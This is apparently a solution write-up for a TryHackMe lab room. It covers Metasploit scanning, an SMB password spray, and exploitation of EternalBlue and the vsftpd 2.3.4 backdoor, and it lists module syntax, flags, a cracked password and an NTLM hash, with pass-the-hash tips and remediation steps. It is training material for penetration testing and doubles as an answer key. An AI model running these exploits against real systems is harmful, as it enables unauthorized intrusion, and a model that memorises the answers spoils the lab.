

# Room Documentation: Metasploit: Scanning and Exploitation

---

## 1. Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 12 — Metasploit and Exploitation (12-METASPLOIT-AND-EXPLOITATION)
* **Room Name:** Metasploit: Scanning and Exploitation
* **Room Slug:** `metasploitscanningandexploitation`
* **Room URL:** [TryHackMe Metasploit: Scanning and Exploitation](https://tryhackme.com/room/metasploitscanningandexploitation)
* **Difficulty:** Medium
* **Room Type:** Walkthrough & Practical Lab
* **Scenario Context:** Penetration Testing Engagement for **Stratford Systems** (Dual-Architecture Infrastructure)
* **Total Tasks:** 7 Tasks
* **Total Questions:** 15 Questions (100% Solved & Verified)

---

## 2. Executive Summary

**Metasploit: Scanning and Exploitation** transitions the penetration tester from theoretical console commands into hands-on offensive execution against live network infrastructure. Continuing the authorized assessment for **Stratford Systems**, the engagement encompasses two critical servers: a Windows workstation (`STRATFORD-WS01`) running legacy SMB services and a Linux production server (`stratford-srv01`) hosting legacy FTP services.

This room demonstrates the practical integration of auxiliary scanning modules with the Metasploit PostgreSQL database, isolating client data into dedicated workspaces (`workspace -a stratford`), ingesting automated network sweeps via `db_nmap`, dynamically populating target parameters (`hosts -R`), non-intrusively validating critical vulnerabilities (`auxiliary/scanner/smb/smb_ms17_010`), and executing two major exploits:
1. **Windows Exploitation:** Exploiting MS17-010 EternalBlue (`exploit/windows/smb/ms17_010_eternalblue`) to achieve `NT AUTHORITY\SYSTEM` privileges, locate `THM{EterNalPwn3d}`, and dump local SAM hashes (`pirate:3B1DA22B1973C0BB86D4A9B6A9AE65F6`).
2. **Linux Exploitation:** Exploiting the historical vsftpd 2.3.4 supply-chain backdoor (`exploit/unix/ftp/vsftpd_234_backdoor`) on TCP port 21/6200 to obtain an interactive root shell and extract `THM-MSFv3n0m-PAYLOAD`.

---

## 3. Architectural & Attack Chain Diagram

The following diagram maps the dual-target scanning, database centralization, and exploitation sequence:



---

## 4. Prerequisites & Environment Setup

Verify local database connectivity and tool configurations:

```bash
# 1. Start PostgreSQL database service
sudo systemctl start postgresql

# 2. Verify database connection
msfdb status

# 3. Launch msfconsole in quiet mode
msfconsole -q
```

---

## 5. Target & Scenario Profiling

* **Client Organization:** Stratford Systems (Financial Services).
* **Target 1 (Windows Workstation):**
  - Hostname / NetBIOS: `STRATFORD-WS01`
  - Operating System: Windows Server 2008 R2 Standard SP1 x64
  - Open Ports (5 total): 135 (MSRPC), 139 (NetBIOS-SSN), 445 (Microsoft-DS), 3389 (RDP), 8000 (webfs/1.21).
  - Recovered Credentials: `penny` : `Spring2013`
  - Verified Vulnerability: MS17-010 (EternalBlue)
* **Target 2 (Linux Production Server):**
  - Hostname: `stratford-srv01`
  - Operating System: Linux (Debian/Ubuntu)
  - Target Service: vsftpd version 2.3.4 (TCP 21 / Backdoor on TCP 6200)

---

## 6. Complete Walkthrough & Methodological Stages

### Task 1: Introduction
- Verify deployment and network reachability of the Stratford Systems lab machines.
- **Answer:** `No answer needed`.

### Task 2: Scanning with Metasploit
1. Running `auxiliary/scanner/portscan/tcp` against `STRATFORD-WS01` reveals **`5`** open ports.
2. Running `auxiliary/scanner/netbios/nbname` recovers the target NetBIOS hostname: **`STRATFORD-WS01`**.
3. Probing port 8000 using `auxiliary/scanner/http/http_version` extracts the daemon banner: **`webfs/1.21`**.
4. Executing `auxiliary/scanner/smb/smb_login` with username `penny` and the provided wordlist cracks the password: **`Spring2013`**.

### Task 3: The Metasploit Database
1. Checking database connection status: **`db_status`**.
2. Creating an isolated workspace named "stratford": **`workspace -a stratford`**.
3. Running Nmap with automated database storage: **`db_nmap`**.
4. Automatically populating the active module's `RHOSTS` with every database host: **`hosts -R`**.

### Task 4: Vulnerability Scanning
1. Auxiliary module for non-intrusively checking MS17-010: **`auxiliary/scanner/smb/smb_ms17_010`**.
2. Command to query verified vulnerabilities recorded in the database: **`vulns`**.

### Task 5: Exploit 1: EternalBlue (MS17-010)
1. Configure `exploit/windows/smb/ms17_010_eternalblue`, set `RHOSTS`, and launch `exploit`.
2. Gaining `NT AUTHORITY\SYSTEM` Meterpreter shell.
3. Locate `flag.txt` using `search -f flag.txt` and read:
   $$\text{Flag} = \texttt{THM\{EterNalPwn3d\}}$$
4. Dump SAM database using `hashdump` to extract the NTLM hash for `pirate`:
   $$\text{NTLM Hash} = \texttt{3B1DA22B1973C0BB86D4A9B6A9AE65F6}$$

### Task 6: Exploit 2: vsftpd 2.3.4 Backdoor
1. Exploit module for the vsftpd 2.3.4 backdoor: **`exploit/unix/ftp/vsftpd_234_backdoor`**.
2. Running the exploit connects to TCP port 6200, granting an interactive shell as: **`root`**.
3. Reading `/root/flag.txt` recovers the administrative flag:
   $$\text{Flag} = \texttt{THM-MSFv3n0m-PAYLOAD}$$

### Task 7: Conclusion
- Review of the completed dual-architecture scanning, database ingestion, and exploitation workflow.
- **Answer:** `No answer needed`.

---

## 7. Tools Deep Dive & Syntax Matrix

| Module / Command | Category | Operational Purpose | Example Syntax |
| :--- | :--- | :--- | :--- |
| `auxiliary/scanner/portscan/tcp` | Discovery | TCP Port Scanning | `set RHOSTS 10.10.19.23; set PORTS 1-10000; run` |
| `auxiliary/scanner/netbios/nbname` | Enumeration | NetBIOS Hostname Resolution | `set RHOSTS 10.10.19.23; run` |
| `auxiliary/scanner/http/http_version` | Fingerprinting | HTTP Daemon Banner Grabbing | `set RHOSTS 10.10.19.23; set RPORT 8000; run` |
| `auxiliary/scanner/smb/smb_login` | Password Audit | Automated SMB Authentication Spray | `set RHOSTS 10.10.19.23; set SMBUser penny; set PASS_FILE list.txt; run` |
| `auxiliary/scanner/smb/smb_ms17_010` | Vuln Scanner | Safe MS17-010 Vulnerability Check | `set RHOSTS 10.10.19.23; run` |
| `workspace -a stratford` | Database | Create & Switch Workspace | `workspace -a stratford` |
| `db_nmap` | Database | Integrated Nmap Ingestion | `db_nmap -sV -sC -O 10.10.19.23` |
| `hosts -R` | Automation | Dynamic Target IP Injection | `hosts -R` |
| `exploit/windows/smb/ms17_010_eternalblue` | Exploit | Ring 0 Kernel Pool Corruption | `set RHOSTS 10.10.19.23; set LHOST tun0; exploit` |
| `exploit/unix/ftp/vsftpd_234_backdoor` | Exploit | Trigger Supply-Chain Shell | `set RHOSTS 10.10.19.45; exploit` |

---

## 8. Cryptographic & Kernel Internals

### 1. MS17-010 EternalBlue (CVE-2017-0143) Root Cause:
- Located inside the Windows SMBv1 kernel driver (`srv.sys`) in function `SrvOs2FeaToNt`.
- When converting OS/2 Extended Attributes (FEA) into NT format, a mathematical casting bug truncates a 32-bit DWORD into a 16-bit WORD during buffer size verification.
- Oversized FEA structures bypass length checks, overflowing non-paged pool memory and overwriting function pointers in `SrvTransaction2DispatchTable`. Execution jumps directly to injected Ring 0 shellcode, establishing immediate `NT AUTHORITY\SYSTEM` control.

### 2. vsftpd 2.3.4 Backdoor (CVE-2011-2523) Root Cause:
- Compromised source code archive distributed in July 2011.
- In `str.c`, the daemon evaluates incoming usernames. If the string contains `:)` (`0x3a 0x29`), it triggers `vsf_sysutil_extra()` in `sysdeputil.c`, opening an unauthenticated listening socket on **TCP port 6200** and redirecting stdin/stdout/stderr to `/bin/sh` running as `root`.

---

## 9. Operational Security & Detection Footprint

* **Risk of Kernel Instability (BSOD):** Firing EternalBlue without prior verification risks corrupting non-paged pool memory structures, causing a Windows Blue Screen of Death (BSOD) in client banking environments. Always run `auxiliary/scanner/smb/smb_ms17_010` first.
* **Firewall Egress and Port 6200:** The vsftpd backdoor listens on an anomalous high-range port (6200). If enterprise network firewalls block outbound/inbound traffic on non-standard ports, the exploit will hang even though the backdoor was triggered.
* **Pass-the-Hash (PtH) Exploitation:** The harvested NTLM hash (`pirate:3B1DA22B1973C0BB86D4A9B6A9AE65F6`) can be reused across the network using `exploit/windows/smb/psexec` or Impacket without cracking the cleartext password.

---

## 10. Defensive Hardening & Remediation

1. **Permanently Deprecate SMBv1:** Disable legacy SMBv1 protocol across all Windows endpoints via Group Policy or PowerShell:
   ```powershell
   Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
   ```
2. **Apply Security Bulletin MS17-010:** Deploy cumulative security patches KB4012212 and KB4012215.
3. **Software Supply-Chain Verification:** Enforce cryptographic hash validation (SHA-256) and PGP signature verification on all open-source packages prior to deployment in production environments.

---

## 11. Common Pitfalls & Troubleshooting

* **Skipping Vulnerability Verification:** Launching EternalBlue blindly on unpatched or unsupported architectures risks crashing target services.
* **Workspace Data Pollution:** Forgetting to run `workspace -a` causes target findings to mix into the default workspace with previous engagements.
* **Firewall Blocking on Port 6200:** Assuming vsftpd failed when in reality network security controls prevent inbound traffic on port 6200.

---

## 12. Comprehensive Tasks & Solutions Index

| Task # | Task Title | Question Text | Verified Answer |
| :---: | :--- | :--- | :--- |
| **01** | Introduction | I have successfully started the machines. | `No answer needed` |
| **02** | Scanning with Metasploit | How many open ports did the scan discover? | `5` |
| **02** | Scanning with Metasploit | Using NetBIOS scanner, what is NetBIOS name? | `STRATFORD-WS01` |
| **02** | Scanning with Metasploit | What service is running on port 8000? | `webfs/1.21` |
| **02** | Scanning with Metasploit | What is the penny user's password? | `Spring2013` |
| **03** | The Metasploit Database | Command to check if Metasploit DB is connected? | `db_status` |
| **03** | The Metasploit Database | Command creates new workspace called stratford? | `workspace -a stratford` |
| **03** | The Metasploit Database | Command runs Nmap and stores results in DB? | `db_nmap` |
| **03** | The Metasploit Database | Command sets RHOSTS to every host in DB? | `hosts -R` |
| **04** | Vulnerability Scanning | Auxiliary module checks MS17-010? | `auxiliary/scanner/smb/smb_ms17_010` |
| **04** | Vulnerability Scanning | Command displays vulnerabilities in database? | `vulns` |
| **05** | Exploit 1: EternalBlue | Content of flag.txt on STRATFORD-WS01? | `THM{EterNalPwn3d}` |
| **05** | Exploit 1: EternalBlue | NTLM hash of pirate user? | `3B1DA22B1973C0BB86D4A9B6A9AE65F6` |
| **06** | Exploit 2: vsftpd Backdoor | Module exploits vsftpd 2.3.4 backdoor? | `exploit/unix/ftp/vsftpd_234_backdoor` |
| **06** | Exploit 2: vsftpd Backdoor | User running as after exploitation? | `root` |
| **06** | Exploit 2: vsftpd Backdoor | Contents of /root/flag.txt? | `THM-MSFv3n0m-PAYLOAD` |
| **07** | Conclusion | Done! | `No answer needed` |

---

## 13. Knowledge Check & Exam Review

1. **Why does EternalBlue grant immediate SYSTEM-level access rather than an unprivileged user shell?**  
   *Answer:* EternalBlue corrupts memory inside `srv.sys`, a Windows kernel-mode driver operating at Ring 0. Because kernel code executes with the highest possible operating system privileges, the injected payload automatically inherits `NT AUTHORITY\SYSTEM`.

2. **How does the vsftpd 2.3.4 backdoor execute arbitrary commands?**  
   *Answer:* When an FTP username ending with `:)` is submitted, an intentional backdoor function (`vsf_sysutil_extra`) binds a raw `/bin/sh` shell to TCP port 6200 with root privileges.

3. **What is the operational advantage of using `hosts -R` in Metasploit?**  
   *Answer:* `hosts -R` queries the internal PostgreSQL database and automatically injects all stored host IP addresses into the active module's `RHOSTS` option, eliminating manual copy-pasting during multi-host sweeps.

---

## 14. References & External Documentation

* [Microsoft Security Bulletin MS17-010 (EternalBlue)](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
* [National Vulnerability Database: CVE-2011-2523 (vsftpd Backdoor)](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
* [Rapid7 Metasploit Database Documentation](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html)
* [NIST SP 800-115 Security Testing Guidelines](https://csrc.nist.gov/publications/detail/sp/800-115/final)
* [TryHackMe Metasploit: Scanning and Exploitation](https://tryhackme.com/room/metasploitscanningandexploitation)
